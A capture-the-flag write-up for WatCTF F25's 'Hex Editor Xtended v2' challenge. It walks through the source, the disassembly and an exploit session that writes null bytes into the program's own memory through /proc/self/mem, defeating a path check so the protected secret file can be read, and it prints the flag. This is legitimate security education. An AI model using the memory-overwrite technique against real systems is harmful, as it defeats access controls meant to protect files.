```yaml
---
title: "WatCTF F25 – Hex Editor Xtended v2: Bypassing Path Checks via /proc/self/mem"
date: 2025-09-11
toc: true
---
```


> *I made a hex editor inspired by ed, the standard editor.*
> *\[A harder version of hex-editor-xtended from WatCTF W25.]*

### TL;DR

The challenge prevents us from directly opening `/secret.txt` by checking with `strncmp`. However, we can open `/proc/self/mem` and overwrite the `/secret.txt` string stored in the program’s memory with null bytes. This bypasses the check, allowing us to open `/secret.txt` and dump the flag.

We are provided with these files:
![](https://github.com/user-attachments/assets/c6fe5d6a-1e13-47be-a91a-c9fd825d6438)

### Reversing the binary

Looking at the source code, the function `do_open_command()` compares the provided `user_path` against `/secret.txt` and blocks it if they match:

```c
void do_open_command(char *user_path) {
    if(realpath(user_path, path) == NULL) {
        perror("could not resolve path");
        clear_path();
        return;
    }
    if (startswith(path, "//")) {
        puts("path has to start with a single slash");
        clear_path();
        return;
    }
    if (strncmp(path, "/secret.txt", strlen("/secret.txt")) == 0) {
        puts("accessing /secret.txt not allowed");
        clear_path();
        return;
    }
...SNIP...
}
```

Disassembling in Ghidra, we see the check implemented with a call to `strncmp`. One of the operands (RSI) points to the global string `/secret.txt`:

```asm
                             LAB_0040182e                                    XREF[1]:     0040180e(j)  
        0040182e ba 0b 00        MOV        EDX,0xb
                 00 00
        00401833 48 8d 05        LEA        RAX,[s_/secret.txt_0049704e]                     = "/secret.txt"
                 14 58 09 00
        0040183a 48 89 c6        MOV        RSI=>s_/secret.txt_0049704e,RAX                  = "/secret.txt"
        0040183d 48 8d 05        LEA        RAX,[path]                                       = ??
                 bc 5a 0c 00
        00401844 48 89 c7        MOV        RDI=>path,RAX                                    = ??
        00401847 e8 24 f8        CALL       strncmp                                          int strncmp(char * __s1, char * 
                 ff ff
```

The global string lives at `0x49704e` in the `.rodata` section:

```
                             s_/secret.txt_0049704e                          XREF[2]:     do_open_command:00401833(*), 
                                                                                          do_open_command:0040183a(*)  
        0049704e 2f 73 65        ds         "/secret.txt"
                 63 72 65 
                 74 2e 74 
        0049705a 00              ??         00h

```

### Exploitation

We can’t open `/secret.txt` directly, but the program lets us open arbitrary files, including `/proc/self/mem`, which exposes its own memory. Since the check compares against the string at `0x49704e`, we can open `/proc/self/mem` and overwrite those bytes with `\x00`. Once the string is corrupted, the `strncmp` no longer matches, effectively removing the block. After that, opening `/secret.txt` succeeds and we can dump the contents with the editor’s `get` command.

```
$ ssh  hexed@challs.watctf.org -p 2022
Linux a5887148c597 6.11.0-1018-azure #18~24.04.1-Ubuntu SMP Sat Jun 28 04:46:03 UTC 2025 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Could not chdir to home directory /home/hexed: No such file or directory
Welcome to HEX (HEX Editor Xtended) v8.5 (bugs patched!)
Run 'help' for help
> open /proc/self/mem
> set 4812878 00
> set 4812879 00
> set 4812880 00
> open /secret.txt
> 
```

Now that we have opened `/secret.txt` successfully, we can use `get` to dump its contents:

```bash
> get 0
...
> get 48
```

Finally, converting the dumped hex values into ASCII gives the flag:

```bash
$ python3 -c "arr=['77','61','74','63','74','66','7b','68','30','70','33','66','75','6c','6c','79','5f','74','68','33','72','33','5f','77','34','73','6e','74','5f','34','6e','5f','75','6e','31','6e','74','33','6e','64','33','64','5f','61','67','34','31','6e','7d']; print(''.join(chr(int(x,16)) for x in arr))"

watctf{h0p3fully_th3r3_w4snt_4n_un1nt3nd3d_ag41n}
```

### Conclusion

By overwriting the /secret.txt string in memory through /proc/self/mem, the restriction check was bypassed, and we could simply open and read the flag.
